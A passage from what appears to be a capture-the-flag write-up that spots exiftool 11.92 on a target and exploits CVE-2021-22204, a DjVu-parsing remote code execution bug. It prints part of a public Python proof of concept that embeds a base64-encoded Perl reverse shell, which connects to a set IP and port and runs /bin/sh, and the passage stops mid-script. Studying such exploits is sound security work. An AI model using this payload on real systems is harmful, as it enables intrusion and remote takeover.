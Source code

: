 ![image*](/img/image-20210928145547953.png)

It's very clearly running `exiftool` (version 11.92) on the image.

### CVE-2021-22204

There's a really [neat
writeup](https://blog.convisoappsec.com/en/a-case-study-on-cve-2021-22204-exiftool-rce/)
on CVE-2021-22204, an RCE vulnerability in `exiftool`. The issue is in
how Exiftool tries to parse the DjVu filetype, and how that can be
inserted into an image like a JPG.

There's a Perl POC in the post, but I went with [this Python
version](https://github.com/convisoappsec/CVE-2021-22204-exiftool). It
needs `apt install djvulibre-bin exiftool`.

The script is really simple:



    #!/bin/env python3    
        
    import base64    
    import subprocess    
        
    ip = '127.0.0.1'    
    port = '9090'    
        
    payload = b"(metadata \"\c${use MIME::Base64;eval(decode_base64('"    
        
        
    payload = payload + base64.b64encode( f"use Socket;socket(S,PF_INET,SOCK_STREAM,getprotobyname('tcp'));if(connect(S,sockaddr_in({port},inet_aton('{ip}')))){{open(STDIN,'>&S');open(STDOUT,'>&S');open(STDERR,'>&S');exec('/bin/sh -i');}};".encode() )        
        